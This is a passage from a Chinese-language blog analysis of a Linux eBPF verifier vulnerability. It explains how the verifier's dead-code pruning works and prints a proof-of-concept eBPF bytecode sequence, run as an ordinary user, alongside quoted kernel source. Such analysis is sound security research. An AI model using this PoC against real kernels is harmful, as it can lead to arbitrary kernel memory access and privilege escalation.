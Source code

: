 且不管其他，我们主要注意的地方是这个`do_check`函数。在该函数中，内核会模拟执行被载入的程序，并逐条指令检查其合法性。何为不合法？`eBPF`程序的指令是包括内存存取相关指令的，因此对被存取的指针它会有类型以及范围的限定，而且限定非常严格。如果说限定的部分有漏洞，或者其他的原因导致限定失效，那么将会带来非常恐怖的后果。例如**任意地址读写**

在遇到具有分支，例如`if xxx goto pc+x`这样的语句，内核会检测`if`判断的条件是否恒成立。若判断为恒成立或者恒不成立，则只分析相应的那一分支，而另一分支则不进行分析。没有被分析到的指令被视为`dead code`



## Poc分析

Poc的c文件链接在文末[3]，注意要用普通用户执行Poc

```
0: (b7) r0 = 808464432
1: (7f) r0 &gt;&gt;= r0
2: (14) w0 -= 808464432
3: (07) r0 += 808464432
4: (b7) r1 = 808464432
5: (de) if w1 s&lt;= w0 goto pc+0
6: (07) r0 += -2144337872
7: (14) w0 -= -1607454672
8: (25) if r0 &gt; 0x30303030 goto pc+0
9: (76) if w0 s&gt;= 0x303030 goto pc+2
10: (05) goto pc-1
11: (05) goto pc-1
12: (95) exit
```

首先先回答一个问题，为什么`goto pc-1`这样不能通过`check_cfg`的指令会被载入到内核中呢？

答案在`bpf_check`函数中

就在调用`do_check_main`那条语句的下方，还有几条代码

```
if (is_priv) `{`
        if (ret == 0)
            opt_hard_wire_dead_code_branches(env);
        if (ret == 0)
            ret = opt_remove_dead_code(env);
        if (ret == 0)
            ret = opt_remove_nops(env);
    `}` else `{`
        if (ret == 0)
            sanitize_dead_code(env);
    `}`
```

代码中，`is_priv`为何物我们已经了解，如果用户为root的话，`is_priv`为1，用户为具有一般权限的一般用户的话，其为0

关于`is_priv`为1的情况下内核究竟对`eBPF`程序做了什么不去细说，总结为一句话就是：内核将`dead code`全部替换为`exit`，即退出指令

那么接下来来看`sanitize_dead_code`函数

```
/* The verifier does more data flow analysis than llvm and will not
 * explore branches that are dead at run time. Malicious programs can
 * have dead code too. Therefore replace all dead at-run-time code
 * with 'ja -1'.
 *
 * Just nops are not optimal, e.g. if they would sit at the end of the
 * program and through another bug we would manage to jump there, then
 * we'd execute beyond program memory otherwise. Returning exception
 * code also wouldn't work since we can have subprogs where the dead
 * code could be located.
 */
static void sanitize_dead_code(struct bpf_verifier_env *env)
`{`
    struct bpf_insn_aux_data *aux_data = env-&gt;insn_aux_data;
    struct bpf_insn trap = BPF_JMP_IMM(BPF_JA, 0, 0, -1);
```